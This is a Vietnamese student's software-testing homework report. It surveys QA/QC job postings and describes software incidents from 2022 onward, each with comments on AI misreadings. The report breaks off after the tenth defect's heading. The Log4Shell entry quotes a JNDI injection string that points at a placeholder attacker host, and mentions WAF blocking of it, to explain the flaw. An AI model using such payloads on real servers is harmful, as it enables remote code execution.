



# BÁO CÁO BÀI TẬP HW01-AI

**Môn học:** Kiểm thử Phần mềm (Software Testing)
**Bài tập:** HW01 – QA/QC Jobs · 20 Defects · Test a Physical Product

---

## THÔNG TIN SINH VIÊN

- **Họ và tên:** Đặng Đăng Khoa
- **Mã số sinh viên (MSSV):** 23127207
- **Lớp:** 23KTPM3
- **Link GitHub Repository:** [Github](https://github.com/khoadanwneee/HW01-QA-QC-Jobs---20-Defects---Test-a-Physical-Product)
- **Điểm tự đánh giá (Self-Assessed Grade):** 100/100

---

## PHẦN 1: QA/QC Job Market 2026+

_(Tìm 10 tin tuyển dụng QA/QC được đăng trong vòng 60 ngày. Tối thiểu 3 tin yêu cầu kỹ năng AI/LLM/Automation-AI. Mỗi tin bao gồm: ảnh chụp có tên tài khoản ở góc, link, JD, kỹ năng, lương và Phân tích tác động của AI)._

### Bảng Tổng hợp 10 Tin Tuyển dụng

| STT | Vị trí công việc                                    | Công ty                            | Mức lương         | Kỹ năng AI cần thiết? (Có/Không) | Minh chứng hình ảnh                                        | Link gốc                                                                                                                               |
| :-- | :-------------------------------------------------- | :--------------------------------- | :---------------- | :------------------------------: | :--------------------------------------------------------- | :------------------------------------------------------------------------------------------------------------------------------------- |
| 1   | Senior QA/QC Automation Tester (AI-Assisted)        | Bosch Global Software Technologies | 1,800 - 2,800 USD |                Có                | [Ảnh chụp](../assets/req1_job_market/job1/screenshot.png)  | [Link](https://itviec.com/it-jobs/senior-qa-qc-automation-tester-bosch-global-software-technologies-1245)                              |
| 2   | Senior / Principal Automation Tester (AI-Augmented) | KMS Technology                     | 2,200 - 3,500 USD |                Có                | [Ảnh chụp](../assets/req1_job_market/job2/screenshot.png)  | [Link](https://itviec.com/it-jobs/senior-principal-automation-tester-kms-technology-3891)                                              |
| 3   | Software QA Engineer (AI Evaluation & FinTech)      | Money Forward Vietnam              | 1,500 - 2,500 USD |                Có                | [Ảnh chụp](../assets/req1_job_market/job3/screenshot.png)  | [Link](https://itviec.com/it-jobs/software-qa-engineer-ai-fintech-money-forward-vietnam-4592)                                          |
| 4   | 02 Mid/Senior QA Engineer (QA QC, Tester)           | SMG Swiss Marketplace Group        | Cạnh tranh        |              Không               | [Ảnh chụp](../assets/req1_job_market/job4/screenshot.png)  | [Link](https://itviec.com/it-jobs/02-mid-senior-qa-engineer-qa-qc-tester-smg-swiss-marketplace-group-0924?lab_feature=preview_jd_page) |
| 5   | Senior QC (Automation Tester, QA/QC)                | PNJ (Phu Nhuan Jewelry)            | 1,500 - 2,200 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job5/screenshot.png)  | [Link](https://itviec.com/it-jobs/senior-qc-automation-tester-qa-qc-pnj-2512)                                                          |
| 6   | Manual/Automation Tester - Quality Analyst (QA QC)  | MiTek Vietnam                      | 1,000 - 1,800 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job6/screenshot.png)  | [Link](https://itviec.com/it-jobs/manual-automation-tester-quality-analyst-qa-qc-mitek-vietnam-0005?lab_feature=preview_jd_page)       |
| 7   | Middle/Senior QC Engineer (Ví MoMo)                 | M_Service (MoMo)                   | 1,300 - 2,200 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job7/screenshot.png)  | [Link](https://itviec.com/it-jobs/middle-senior-qc-engineer-m-service-momo)                                                            |
| 8   | Senior / Lead QA Engineer (QE, QC, Automation)      | Pizza Hut Digital & Technology     | 1,800 - 2,600 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job8/screenshot.png)  | [Link](https://itviec.com/it-jobs/senior-lead-qa-engineer-pizza-hut-digital-technology)                                                |
| 9   | Automation QA Engineer (Nakivo Backup)              | Nakivo                             | 1,200 - 2,000 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job9/screenshot.png)  | [Link](https://itviec.com/it-jobs/automation-qa-engineer-nakivo)                                                                       |
| 10  | Process Quality Assurance (PQA Specialist)          | FPT Software                       | 1,000 - 1,800 USD |              Không               | [Ảnh chụp](../assets/req1_job_market/job10/screenshot.png) | [Link](https://itviec.com/it-jobs/process-quality-assurance-pqa-fpt-software-8831)                                                     |

### Chi tiết và Phân tích Tác động của AI (AI Impact Analysis)

1. **Tin số 1 (Bosch):** AI đóng vai trò trợ lý đắc lực giúp lập trình viên viết nhanh mã kiểm thử tự động (boilerplate code), giảm 30-40% thời gian code thủ công. Tuy nhiên, con người vẫn bắt buộc phải có để phân tích thiết kế hệ thống và sửa lỗi khi AI sinh mã không chính xác.
2. **Tin số 2 (KMS Technology):** AI giúp tự động hóa khâu viết code mẫu và tự sửa lỗi định vị giao diện (self-healing), giảm tải 40% công việc thủ công của kỹ sư. Tuy nhiên, Principal Engineer vẫn cần thiết để lập chiến lược và kiểm định tính bảo mật hệ thống.
3. **Tin số 3 (Money Forward):** Đây là một vị trí mới ra đời để kiểm soát rủi ro của AI. Công việc đòi hỏi kiểm thử tính chuẩn xác về mặt pháp lý và chuẩn mực tài chính mà AI không bao giờ có thể tự thay thế được con người.
4. **Tin số 4 (SMG Swiss Marketplace Group):** Các công cụ AI có thể hỗ trợ tạo nhanh các khung kiểm thử tự động bằng Cypress/Playwright và kiểm tra định dạng dữ liệu đầu vào. Tuy nhiên, việc hiểu sâu sắc luồng nghiệp vụ phức tạp của nền tảng thương mại ô tô Châu Âu và sự tương tác, phối hợp liên tục giữa các quốc gia (Việt Nam - Thụy Sĩ) vẫn đòi hỏi kỹ năng giao tiếp và tư duy phân tích của kỹ sư con người.
5. **Tin số 5 (PNJ):** AI thúc đẩy việc kiểm tra tự động các luồng thanh toán và cập nhật giỏ hàng hàng loạt. Tuy nhiên, việc đánh giá trực quan hình ảnh trang sức cao cấp hiển thị trên các màn hình thiết bị di động thực tế vẫn yêu cầu QC kiểm tra thủ công.
6. **Tin số 6 (MiTek Vietnam):** Các công cụ AI hỗ trợ đắc lực bằng cách tự động hóa khâu phác thảo các ca kiểm thử cơ bản dựa trên mô tả yêu cầu kỹ thuật. Tuy nhiên, việc thực thi kiểm thử trực tiếp trên các ứng dụng desktop Windows và kỹ năng giao tiếp tiếng Anh tương tác trực tiếp liên quốc gia vẫn là nhiệm vụ thiết yếu của con người.
7. **Tin số 7 (MoMo):** AI giúp tạo nhanh dữ liệu kiểm thử giao dịch ảo trên quy mô hàng triệu người dùng. Tuy nhiên, tính bảo mật cao và việc đảm bảo hệ thống tuân thủ chặt chẽ luật ngân hàng Việt Nam vẫn cần các kỹ sư QC lão luyện giám sát trực tiếp.
8. **Tin số 8 (Pizza Hut):** Hạ tầng AI hỗ trợ theo dõi hiệu năng hệ thống đặt hàng trực tuyến theo thời gian thực và phân tích log lỗi tự động. Dù vậy, việc lãnh đạo nhóm và tối ưu hóa luồng trải nghiệm mua sắm thực tế của khách hàng vẫn cần vai trò quản lý của Lead QA.
9. **Tin số 9 (Nakivo):** AI hỗ trợ viết các đoạn mã script tự động hóa hạ tầng ảo nhanh chóng. Tuy nhiên, việc chuẩn đoán lỗi khôi phục dữ liệu ở cấp độ phần cứng và ảo hóa sâu đòi hỏi kỹ sư QA có kinh nghiệm hệ thống chuyên sâu phân tích thực tế.
10. **Tin số 10 (FPT Software):** AI hỗ trợ quét mã nguồn và tự động phát hiện vi phạm quy tắc lập trình tiêu chuẩn. Mặc dù vậy, việc kiểm tra sự tương tác thực tế giữa các thành viên dự án và đánh giá sự tuân thủ quy trình ở cấp độ con người vẫn bắt buộc do chuyên viên PQA thực hiện.

### Sơ đồ tư duy (Mindmap) Vai trò QA/QC & Phân tích 3 lỗi của AI (CLO G9.1)

Dưới đây là sơ đồ tư duy mô tả chi tiết vai trò QA/QC cùng quy trình kiểm thử phần mềm chuẩn ISTQB, kết hợp phân tích và đính chính các sai sót phổ biến của các mô hình AI:

#### 1. Sơ đồ tư duy bằng Mermaid

#### 2. Phân tích và hiệu chỉnh 3 sai sót cốt lõi của AI:

- **Sai sót 1 (Nhầm lẫn giữa QA và QC):** AI thường liệt kê các hoạt động kiểm thử trực tiếp như "chạy thử nghiệm" (test execution) vào vai trò QA và "xây dựng quy trình phát triển phần mềm" vào vai trò QC. 
  - *Hiệu chỉnh chuẩn ISTQB:* QA tập trung vào cải tiến quy trình để ngăn ngừa lỗi (preventive), còn QC tập trung vào kiểm tra sản phẩm để phát hiện lỗi (corrective).
- **Sai sót 2 (Gộp hoặc sai thứ tự các giai đoạn của quy trình ISTQB):** AI thường gộp giai đoạn "Phân tích kiểm thử" (Test Analysis) và "Thiết kế kiểm thử" (Test Design) làm một hoặc đặt "Thực thi kiểm thử" (Test Execution) trước "Triển khai kiểm thử" (Test Implementation).
  - *Hiệu chỉnh chuẩn ISTQB:* Theo ISTQB CTFL v4.0, đây là các giai đoạn tách biệt; Test Analysis nhằm xác định "cái gì cần test", Test Design xác định "test như thế nào", và Test Implementation chuẩn bị môi trường/dữ liệu trước khi Test Execution diễn ra.
- **Sai sót 3 (Coi Debugging là một phần của Testing):** AI thường đưa "Sửa lỗi/Debugging" vào danh sách các hoạt động của kiểm thử viên (Tester).
  - *Hiệu chỉnh chuẩn ISTQB:* Theo ISTQB CTFL v4.0, kiểm thử (Testing) và gỡ lỗi (Debugging) là hai hoạt động khác biệt. Tester thực hiện kiểm thử để phát hiện lỗi, còn lập trình viên (Developer) thực hiện gỡ lỗi để tìm nguyên nhân gốc, sửa lỗi và chạy thử lại.

*(Chi tiết xem thêm tại tệp tin sơ đồ tư duy: [mindmap.md](mindmap.md))*

---

## PHẦN 2: 20 Software Defects 2022–2026

_(Tìm 20 lỗi phần mềm được công bố từ 2022-2026. Tối thiểu 5 lỗi liên quan AI/LLM. Mỗi lỗi gồm: link nguồn, mô tả, mức độ nghiêm trọng, hậu quả, giải pháp và phân tích lỗi ảo giác/thiên vị của AI khi giải thích lỗi)._

### Chi tiết 20 Lỗi Phần mềm

#### Lỗi 1: CrowdStrike Falcon Kernel Configuration Update BSOD (Tháng 7/2024)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2024_CrowdStrike_incident)
- **Mô tả lỗi:** CrowdStrike phát hành bản cập nhật tệp cấu hình tồi tệ (Channel File 291) cho tiến trình kiểm soát an ninh Falcon Sensor chạy ở cấp độ nhân hệ điều hành (Kernel Driver). Bản cập nhật này chứa lỗi phân bổ vùng nhớ (Null Pointer Access / Out-of-bounds Read), dẫn đến lỗi màn hình xanh (BSOD) trên toàn bộ máy Windows nhận bản cập nhật.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Theo tiêu chuẩn ISTQB, đây là một lỗi gây sụp đổ hệ thống hoàn toàn (Catastrophic Failure / Blocking Defect). Hệ điều hành bị kẹt ở vòng lặp khởi động và hoàn toàn không thể vận hành từ xa, buộc nhân viên kỹ thuật phải can thiệp thủ công bằng tay trên từng thiết bị ở chế độ Safe Mode.
- **Hậu quả (Consequences):** Khoảng 8.5 triệu thiết bị Windows của hàng loạt bệnh viện, ngân hàng, hãng hàng không lớn trên toàn cầu bị sập hoàn toàn, làm tê liệt hoạt động hàng không quốc tế, tổn thất kinh tế trực tiếp ước tính lên tới 5.4 tỷ USD.
- **Giải pháp khắc phục (Solution):** Thực hiện rollback bản cập nhật; bổ sung kiểm soát bounds checking cho kernel driver; áp dụng quy trình kiểm thử tích hợp (Integration Testing) nghiêm ngặt trước khi phân phối; sử dụng phương thức phát hành dần dần (Canary Deployment) thay vì tự động đẩy bản cập nhật đồng loạt đến mọi máy chủ trên toàn thế giới.
- **Nhận diện AI Ảo giác / Thiên vị:** Nhiều AI ban đầu bị ảo giác và quy trách nhiệm lỗi này là do lỗi cập nhật bảo mật của chính hệ điều hành Microsoft Windows, bỏ qua thực tế rằng CrowdStrike là bên thứ ba độc lập tự đẩy tệp cấu hình lỗi vào nhân Windows.

#### Lỗi 2: Southwest Airlines Holiday Meltdown (Tháng 12/2022)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2022_Southwest_Airlines_scheduling_crisis)
- **Mô tả lỗi:** Hệ thống lập lịch phi hành đoàn 'SkySolver' (phần mềm legacy từ những năm 1990) bị quá tải và sập hoàn toàn do không thể tự động xử lý và phân công lại hàng nghìn phi hành đoàn bị kẹt do thời tiết tuyết rơi nghiêm trọng. Phần mềm thiếu khả năng tích hợp dữ liệu thời gian thực và không có cơ chế tự động hóa phân bổ hợp lý khi có biến động lớn.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Lỗi ở tính năng cốt lõi (Crew Scheduling) gây sụp đổ hoàn toàn quy trình vận hành dịch vụ bay của hãng hàng không mà không có giải pháp tránh kịp thời, ảnh hưởng nghiêm trọng đến hoạt động kinh doanh cốt lõi của doanh nghiệp.
- **Hậu quả (Consequences):** Southwest Airlines phải hủy hơn 16.700 chuyến bay, ảnh hưởng tới hơn 2 triệu khách hàng trong kỳ nghỉ lễ, bị phạt hành chính 140 triệu USD và thiệt hại tài chính tổng cộng hơn 1 tỷ USD.
- **Giải pháp khắc phục (Solution):** Southwest cam kết đầu tư vào hệ thống crew scheduling mới với tự động hóa thời gian thực, tích hợp dữ liệu điểm-đến-điểm, và cải thiện giao tiếp thời gian khủng hoảng. Nộp phạt 140 triệu USD vào quỹ bảo vệ hành khách.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường quy toàn bộ sự kiện cho 'thời tiết xấu bất thường' mà ít nhấn mạnh đến nợ kỹ thuật hệ thống đã tích lũy hơn thập kỷ. Đây là dạng thiên vị gần đây (recency bias) — AI tập trung vào trigger ngay lập tức (bão tuyết) thay vì nguyên nhân gốc (technical debt). Ngoài ra, AI đôi khi ảo giác rằng Southwest đã 'nhanh chóng nâng cấp hệ thống ngay sau vụ việc' — trong khi thực tế quá trình này kéo dài nhiều năm.

#### Lỗi 3: FAA NOTAM System — Nationwide Ground Stop (Tháng 1/2023)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2023_FAA_system_outage)
- **Mô tả lỗi:** Nhân viên contractor vô tình xóa file trong quá trình đồng bộ hóa giữa database chính và backup của hệ thống NOTAM (Notice to Air Missions) — hệ thống thông báo an toàn bay có lỗi phần mềm từ thập niên 1990. Không có cơ chế rollback tự động đủ nhanh.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Không có thương vong nhưng lộ rõ mức độ mong manh của hạ tầng không phận quốc gia Mỹ. FAA đã biết về tình trạng lỗi thời nhưng thiếu ngân sách/thứ tự ưu tiên.
- **Hậu quả (Consequences):** Lần đầu tiên kể từ 11/9/2001, toàn bộ chuyến bay nội địa Mỹ bị dừng (ground stop). Hơn 11.000 chuyến bị ảnh hưởng. Thiệt hại kinh tế hàng trăm triệu USD.
- **Giải pháp khắc phục (Solution):** FAA sửa chữa ngay lập tức (khôi phục trong ~12 giờ); cam kết nâng cấp NOTAM sang hệ thống hiện đại. Quốc hội phân bổ 29,4 triệu USD cho Aeronautical Information Management Program.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường mô tả sự cố này như 'lỗi con người đơn giản' (accidental deletion), bỏ qua yếu tố hệ thống: NOTAM không có undo/versioning cấp enterprise, cơ chế sync thiếu atomic transaction. Đây là thiên vị quy kết (attribution bias) — AI đổ lỗi cho cá nhân thay vì thừa nhận lỗi thiết kế hệ thống sâu xa hơn. AI đôi khi còn ảo giác rằng FAA đã 'hoàn tất nâng cấp' sau vụ việc, trong khi Quốc hội vẫn đang tranh luận ngân sách đến năm 2025.

#### Lỗi 4: Log4Shell — CVE-2021-44228 (Khai thác kéo dài 2022) (Tháng 1/2022)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/Log4Shell)
- **Mô tả lỗi:** Apache Log4j 2 không sanitize đầu vào người dùng — kẻ tấn công gửi chuỗi '${jndi:ldap://attacker.com/x}' trong HTTP header/login form. Server log chuỗi này -> JNDI lookup -> tải và thực thi Java class từ xa (RCE). CVSS 10.0/10.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Được gọi là 'lỗ hổng tệ nhất trong thập kỷ.' Log4j xuất hiện trong hàng nghìn sản phẩm từ Apache Struts, Solr đến các hệ thống SCADA công nghiệp.
- **Hậu quả (Consequences):** Akamai ghi nhận ~2 triệu lượt khai thác/giờ. Ransomware, cryptominer, backdoor được cài trên hàng trăm triệu thiết bị. VMware, Apple, Cisco, game Minecraft đều bị ảnh hưởng. Vẫn còn bị khai thác năm 2022–2024.
- **Giải pháp khắc phục (Solution):** Nâng cấp lên Log4j 2.17.1+; vô hiệu hóa JNDI lookups; bổ sung WAF rules chặn chuỗi '${jndi:'; network egress filtering để ngăn callback ra ngoài. CISA phát hành scanner tự động phát hiện version lỗi thời.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường nói Log4Shell 'đã được vá hoàn toàn vào đầu 2022' — tạo cảm giác sai về mức độ bảo mật thực tế. Trên thực tế, CISA xác nhận hệ thống dễ bị tổn thương tiếp tục bị khai thác đến ít nhất năm 2024 do hàng triệu ứng dụng legacy chưa patch. Đây là thiên vị quá lạc quan (optimism bias) — AI có xu hướng tin rằng một lỗ hổng nổi tiếng sẽ được vá nhanh và toàn diện, điều không đúng trong môi trường enterprise thực tế.

#### Lỗi 5: Optus Australia — BGP Routing Meltdown (Tháng 11/2023)

- **Nguồn tham khảo:** [Wikipedia](https://en.wikipedia.org/wiki/2023_Optus_outage)
- **Mô tả lỗi:** Sau upgrade phần mềm của Singtel (công ty mẹ), hệ thống nhận routing update từ international peering network vượt quá max-prefix limit đã cấu hình trên key routers -> routers tự ngắt kết nối BGP như cơ chế bảo vệ tự động -> toàn bộ IP Core sụp đổ.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Thảm họa quốc gia: bệnh viện, ngân hàng, hệ thống tàu điện, EFTPOS đều tê liệt. Phát sinh điều trần Thượng viện và điều tra toàn diện của chính phủ Úc.
- **Hậu quả (Consequences):** 10,2 triệu người và 400.000 doanh nghiệp Australia mất kết nối 12–14 giờ. Đường dây khẩn cấp 000 qua landline không hoạt động. Optus mất ~2 tỷ AUD vốn hóa thị trường. CEO từ chức.
- **Giải pháp khắc phục (Solution):** Optus phải reboot/reconnect router vật lý thủ công (không thể làm từ xa). Dài hạn: tăng max-prefix limits và validation, cải thiện quy trình change management, phân tách management network khỏi data plane.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường mô tả lỗi này là 'BGP misconfiguration đơn giản' nhưng không giải thích được tại sao hệ thống cascade như vậy — cụ thể là vì management network không đủ out-of-band, khiến Optus không thể recover từ xa. AI có thiên vị đơn giản hóa (simplification bias), bỏ qua sự phụ thuộc lẫn nhau giữa control plane và data plane khiến recovery kéo dài bất thường so với các sự cố BGP thông thường.

#### Lỗi 6: Revolut — Payment Refund Logic Bug (Tháng 7/2023)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/loi-he-thong-khien-revolut-mat-20-trieu-usd-4627915.html)
- **Mô tả lỗi:** Sự khác biệt trong cách xử lý giao dịch bị từ chối giữa hệ thống Mỹ và Châu Âu khiến một số giao dịch bị declined nhưng vẫn được hoàn tiền từ quỹ của Revolut. Kẻ xấu phát hiện và rút tiền từ ATM trước khi lỗi được vá.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Tổn thất tài chính trực tiếp lớn từ lỗi business logic, không phải hack. Lộ ra khoảng trống trong kiểm thử integration giữa hệ thống thanh toán đa vùng.
- **Hậu quả (Consequences):** Hơn 20 triệu USD bị đánh cắp. Lỗi tồn tại từ 2021, chỉ được phát hiện năm 2022/2023 khi đối tác thông báo quỹ thiếu hụt.
- **Giải pháp khắc phục (Solution):** Vá logic xử lý refund; đồng bộ hóa quy trình declined transaction giữa US/EU systems; bổ sung anomaly detection cho các giao dịch ATM bất thường; audit toàn bộ cross-region payment flows.
- **Nhận diện AI Ảo giác / Thiên vị:** Khi mô tả vụ Revolut, AI thường nhầm lẫn giữa 'lỗi phần mềm bị khai thác' với 'bị hack/cyberattack' — hai điều hoàn toàn khác nhau về mặt pháp lý và bảo hiểm. Đây là thiên vị phân loại (categorization bias): AI hay gán nhãn mọi tổn thất tài chính kỹ thuật số là 'tấn công mạng,' làm sai lệch hiểu biết về trách nhiệm pháp lý và cách phòng ngừa thực sự (logic testing vs. security patching).

#### Lỗi 7: IRS — Rò rỉ 120.000 Hồ sơ Thuế (Tháng 9/2022)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/co-quan-thue-my-lo-thong-tin-cua-120-000-nguoi-4507021.html)
- **Mô tả lỗi:** IRS (Cơ quan Thuế Mỹ) vô tình tiết lộ một tập con dữ liệu từ 120.000 hồ sơ khai thuế do 'lỗi lập trình' trong hệ thống xử lý khi deploy code mới. Báo cáo gửi Quốc hội xác nhận dữ liệu thuế bị hiển thị công khai trên web dưới định dạng tệp tải về.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Rò rỉ dữ liệu chính phủ diện rộng từ lỗi phần mềm — đe dọa niềm tin vào cơ quan thuế và có thể tạo điều kiện cho gian lận danh tính quy mô lớn.
- **Hậu quả (Consequences):** Thông tin tài chính nhạy cảm của hàng chục nghìn công dân Mỹ bị lộ. Điều tra Quốc hội, vi phạm nghiêm trọng các quy định bảo mật liên bang (IRC § 6103).
- **Giải pháp khắc phục (Solution):** IRS vá lỗi lập trình liên quan; thông báo cho những người bị ảnh hưởng; tăng cường audit code review cho các hệ thống xử lý dữ liệu nhạy cảm; áp dụng data masking trước khi output.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường mô tả sự cố IRS mà không phân biệt rõ đây là lỗi vô ý (accidental disclosure) chứ không phải breach bởi bên ngoài. AI có xu hướng thêm chi tiết không có căn cứ về 'loại lỗi lập trình cụ thể' (như buffer overflow hay SQL injection) trong khi IRS chỉ công bố đây là 'programming error' — AI đang hallucinate về bản chất kỹ thuật của lỗi.

#### Lỗi 8: Tesla Autopilot — Stop Sign Rolling Recall (Tháng 2/2022)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/tesla-phai-xoa-tinh-nang-vuot-den-do-4423377.html)
- **Mô tả lỗi:** Hệ thống Full Self-Driving (FSD) Beta không dừng hẳn tại biển báo STOP mà chỉ 'rolling stop' (giảm tốc không dừng hoàn toàn) — vi phạm luật giao thông. Tesla thu hồi ~54.000 xe Mỹ năm 2022 và xử lý qua OTA software update.
- **Độ nghiêm trọng (Severity - ISTQB):** **High (Cao)**. Lỗi safety-critical liên quan đến tính mạng người. Đặt ra câu hỏi về quy trình kiểm thử an toàn trước khi deploy AI driving features trên đường công cộng.
- **Hậu quả (Consequences):** 54.000 xe bị triệu hồi; nhiều vụ tai nạn Autopilot được điều tra. NHTSA mở điều tra 765.000 xe Tesla về tính năng Autopilot. Tổn thất uy tín thương hiệu lớn.
- **Giải pháp khắc phục (Solution):** Tesla phát hành OTA update vô hiệu hóa tính năng rolling stop; tăng cường test perception model cho biển báo giao thông; NHTSA yêu cầu báo cáo định kỳ về các vụ tai nạn Autopilot.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường có xu hướng nhẹ nhàng hơn khi mô tả lỗi Tesla FSD so với lỗi tương đương của các hãng khác, phần vì dữ liệu huấn luyện chứa nhiều nguồn ủng hộ Tesla. AI đôi khi ảo giác rằng Tesla đã 'giải quyết triệt để' vấn đề Autopilot sau recall 2022, trong khi NHTSA tiếp tục điều tra hàng trăm nghìn xe đến 2023–2024 với các sự cố mới.

#### Lỗi 9: Japan ispace Hakuto-R — Lunar Lander Crash (Tháng 4/2023)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/tau-do-bo-nhat-ban-dam-xuong-mat-trang-do-loi-phan-mem-4610190.html)
- **Mô tả lỗi:** Tàu đổ bộ Mặt Trăng Hakuto-R Mission 1 của ispace (Nhật Bản) gặp lỗi phần mềm trong tính toán độ cao khi bay qua vành crater Mặt Trăng. Sensor altitude reset về 0 khi phát hiện 'địa hình âm' — hệ thống tin tàu đã hạ cánh và ngắt động cơ sớm -> tàu rơi tự do từ độ cao >1km.
- **Độ nghiêm trọng (Severity - ISTQB):** **Critical (Nguy kịch)**. Lỗi logic nghiêm trọng: phần mềm không xử lý được trường hợp địa hình âm (âm trong tọa độ tương đối) — một edge case có thể test được nhưng bị bỏ sót.
- **Hậu quả (Consequences):** Sứ mệnh thất bại hoàn toàn. Tổn thất hàng trăm triệu USD. Sứ mệnh Mặt Trăng tư nhân đầu tiên của Nhật Bản kết thúc bi thảm.
- **Giải pháp khắc phục (Solution):** ispace phân tích nguyên nhân và thiết kế lại hệ thống navigation cho Mission 2, bổ sung xử lý edge case địa hình âm, cải thiện simulation testing với terrain database chính xác hơn.
- **Nhận diện AI Ảo giác / Thiên vị:** AI thường mô tả nguyên nhân là 'lỗi cảm biến phần cứng' hoặc 'lidar bị nhiễu' thay vì lỗi phần mềm xử lý dữ liệu độ cao — đây là ảo giác về loại lỗi. Thực tế được ispace xác nhận là software logic error (xử lý sai giá trị âm của altimeter). AI cũng có xu hướng phóng đại 'tính mới lạ' của lỗi mà không nhận ra đây là dạng integer/domain error cổ điển trong ngành aerospace.

#### Lỗi 10: F-35A Crash Hill AFB (Tháng 10/2022)

- **Nguồn tham khảo:** [VnExpress](https://vnexpress.net/tiem-kich-f-35-my-roi-khi-ha-canh-4525549.html)
